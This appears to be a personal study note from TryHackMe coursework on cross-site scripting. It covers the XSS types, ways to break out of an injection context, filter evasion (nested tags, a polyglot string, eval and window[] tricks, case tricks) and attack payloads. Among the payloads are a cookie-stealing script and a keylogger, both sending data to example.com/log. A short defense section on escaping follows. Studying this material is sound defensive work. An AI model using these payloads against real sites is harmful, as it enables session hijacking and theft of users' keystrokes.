 # XSS (Cross Site Scripting) Attacks

author:: Nathan Acks  
date:: 2022-04-06

Types of XSS attacks:

* Reflected (URL-based, no server-side storage)
* Stored
* DOM-based (really client-side)

DOM-based attacks are *client* side — with both reflected and stored XSS, the server is embedding the attack into the page that’s being rendered. For DOM-based attacks, it’s the *client* that inserts the malicious JavaScript into the page (even if the data was provided by the server). Ask yourself: “How did this get into the page? Did the server put it there (reflected/stored XSS), or did my client put it there (DOM-based XSS)?”

The canonical (but highly annoying) XSS PoC is:

```html
<script>alert('XSS');</script>
```

A much less annoying XSS test is to manipulate the `innerHTML` of page elements:

```html
<script>
	xssTest
		= document.querySelector("h1");
	xssTest.innerHTML = "XSS was here!";
</script>
```

## Tips for Writing JavaScript

JavaScript accepts back-ticks as a type of quotation mark, so we actually have three different marks to work with (single quote, double quote, and back-tick).

Sometimes you’ll need to break out of a tag that you’re being inserted into. Various options:

* Use `">` if you’re being inserted into an HTML attribute.
* Use `</pre>` or `</textarea>` for preformatted blocks and text areas.
* Use `';` followed by `;//` for direct JavaScript inserts. (Note that it’s only possible to insert `<script/>` tags if the JavaScript you’re abusing is being included from a file, as HTML parsers are greedy about the closing `</script>` tag.)

Most regular expressions and filters are only executed in a single pass. Thus, a regular expression that’s filtering out `<script>` and `</script>` tags can be circumvented by using `<s<script>cript>` and `</s</script>cript>`. That said, this trick doesn’t work for regular expressions that are removing single characters (for example, `<` and `>`).

You can also use the `onload` attribute to pull in JavaScript, though note that this is only functional the first time the page is loaded. This will often require you to close out the preceding attribute (`"`) and *leave off* the trialing `"` of the `onload` attribute in order for everything to work properly.

There’s also “polygot” strings which work in a variety of contexts. These have some pretty wild escaping going on; for example, the following (lightly modified from TryHackMe’s example) produces an “XSS” alert:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!><sVg/<sVg/oNloAd=alert('XSS')//>>
```

## Filter Evasion

### Bypass `<script/>` Tag Removal

Use `onmouseover`, `onclick`, etc.

### Bypass Simple Word Filtering

In general, you can break up strings to get around this.

```javascript
alert("H" + "ello")
```

The `eval()` function can be used to turn strings into function names if a function is filtered.

```javascript
eval("a" + "lert")("Hello")
```

It’s also possible (and safer, though if we’re breaking into things we probably care a lot less about safety) to use `window[]`.

```javascript
window["a" + "lert"]("Hello")
```

For really heavy filtering, use something nutso like JSFuck.

(Note that things like the JavaScript Obfuscator Tool won't always remove functions and strings, as they tend to be geared more towards thwarting script analysis than bypassing filters.)

Sometimes filters are applied in a case-sensitive fashion. While JavaScript *is* case-sensitive, URL schemes, HTML tag names, and HTML tag attributes are case-*insensitive* (so, `javascript:` is treated the same as `javaSCRIPT:`, `onclick` is treated the same as `ONCLICK`, etc.).

### Using iFrames

Typically XSS attacks work by injecting `<script/>` tags, but it's also possible to inject JavaScript using the `<iframe/>` tag by setting the `src` attribute to the `javacript:` pseudo-protocol. For example:

```html
<iframe src="javascript:alert('XSS');"/>
```

Note, however, that JavaScript loaded in an `<iframe/>` won’t have access to the parent page’s DOM.

## Attacks

### Accessing Browser Cookies

```html
<script>
	fetch(
		'https://example.com/log'
			+ '?cookie='
			+ btoa(document.cookie)
	);
</script>
```

### Keylogging

```html
<script>
	document.onkeypress = function(e) {
		fetch(
			'https://example.com/log'
				+ '?cookie='
				+ btoa(document.cookie)
				+ '&keypress='
				+ btoa(e.key)
		);
	}
</script>
```

Adding the user’s session cookie here allows us to tell whose keystrokes are whose!

### Port Scanning

[An example JavaScript port scanner (possibly broken).](https://github.com/aabeling/portscan)

### Website Defacement

You can access elements of the DOM using `document.getElementById("element-id")` or `document.querySelector("#element-id")`. The `querySelector()` method is a bit more flexible (you can use CSS-style selectors here) and should probably be preferred.

To get/set the content of an element, use the `innerHTML` method (to insert HTML directly into the DOM), or alternately `innerText` or `textContent` to set element text *only*.

Note that `<script/>` tags inserted by setting an element’s `innerHTML` are *not* executed, however!

## Defense

The key to defending against XSS is really to get your encoding right. User-generated code that’s passed off to JavaScript needs to be JavaScript-escaped first. User-generated code that’s written into the DOM needs to be HTML-escaped first. Know what the context is of your data, and escape/unescape appropriately when writing data from one context to another!

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe: Cross-Site Scripting](tryhackme-cross-site-scripting.md)
* [Document.cookie](https://developer.mozilla.org/docs/Web/API/Document/cookie)
* [Document.querySelector()](https://developer.mozilla.org/en-US/docs/Web/API/Document/querySelector)
* [JSFuck](http://www.jsfuck.com/)
* [JavaScript Obfuscator Tool](https://obfuscator.io/)
